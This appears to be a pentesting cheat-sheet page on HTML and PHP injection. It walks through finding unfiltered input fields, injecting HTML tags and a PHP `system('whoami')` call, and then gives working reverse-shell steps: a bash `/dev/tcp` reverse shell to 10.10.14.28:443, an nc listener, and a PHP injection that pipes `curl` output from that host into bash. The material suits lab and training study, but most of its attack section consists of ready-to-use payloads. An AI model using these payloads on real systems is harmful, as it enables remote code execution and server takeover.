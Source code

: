 # HTML Injection



## HTML Injection Enumeration

### **Find Input Fields**

Input fields may be found in the following examples:

* Search boxes
* Comments
* Post
* Forms

**Try inserting special characters to see if they are not filtered:**

```text
< >; ' " { } ;
```

* &lt; &gt;; = denote elements in HTML
* ' " = denote strings on JavaScript
* {} = function declarations of JavaScript
* ; = end of a statement on JavaScript
* &lt;?php = PHP code
* ?&gt; = end of PHP code

**If these characters are not removed or encoded then the website might be vulnerable to XSS:**

* URL Encoding
* HTML Encoding

**Then we might be able to code since we can use these special characters!**

Test HTML tags in input fields:

```markup
<h1>Hola</h1>
<marquee>Hola</marquee>
```

Test malicious code in other languages \(e.g PHP\)

```php
<?php system("whoami"); ?>
```

## Reverse Shell via PHP Injection

Create an index.html file in your webroot directory that actually executes bash code:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.28/443 0>&1
```

Set a listener on a port of your choosing:

```text
nc -lvnp 443
```

Inject a malicious PHP code:

```php
<?php system("curl 10.10.14.28 | bash"); ?>
```


